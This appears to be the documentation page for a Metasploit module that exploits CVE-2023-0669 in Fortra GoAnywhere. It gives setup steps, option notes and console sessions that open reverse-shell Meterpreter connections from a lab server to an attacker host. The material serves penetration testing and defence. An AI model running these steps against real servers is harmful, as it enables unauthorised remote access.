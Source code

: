 ## Vulnerable Application

The vulnerable application is Fortra GoAnywhere. Currently, all versions are
vulnerable. The version I'm testing on is 7.1.1. You can get a free one-week
trial if you sign up on their site, but I don't think you actually need to
register - you can just create a free account and download the application.

## Verification Steps

1. Install the application
1. Start the application on the server with `./goanywhere.sh start`
1. Start msfconsole
1. Do: `use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669`
1. Set `LHOST` / `RHOST`
1. Do: `run`
1. You should get a shell.

## Options

### TARGET_URI

Set to the base path for the exploit - the default (`/goanywhere/lic/accept`) is usually fine.

### Version

The version number of the encryption, which is appended to the encrypted text.
Changing the target will change this, but normally you don't have to tweak this.

Some hosts (like in FIPS-compliant mode) don't allow version 1, but presumably
there are older hosts that don't support version 2.

### EncryptionKey / EncryptionIv / EncryptionAlgorithm

How to encrypt the object. Depending on the `Version`, there are different
keys. This is updated when you change TARGET and probably doesn't need to be
changed.

## Scenarios

### Version 7.1.1 on Fedora Linux

```
msf > use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.219:46860) at 2023-02-06 14:32:50 -0800

meterpreter > getuid
Server username: ron
```

### Using an earlier encryption version

```
msf > use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set TARGET 1
TARGET => 1

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > show options

[...]


Exploit target:

   Id  Name
   --  ----
   1   Version 1 Encryption



View the full module info with the info, or info -d command.

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.219:46862) at 2023-02-06 14:33:41 -0800

meterpreter > 
```

# Version 7.1.1 over HTTP

```
msf > use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RPORT 8000
RPORT => 8000

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false

msf exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 3 opened (10.0.0.179:4444 -> 10.0.0.219:46864) at 2023-02-06 14:35:06 -0800

meterpreter >
```

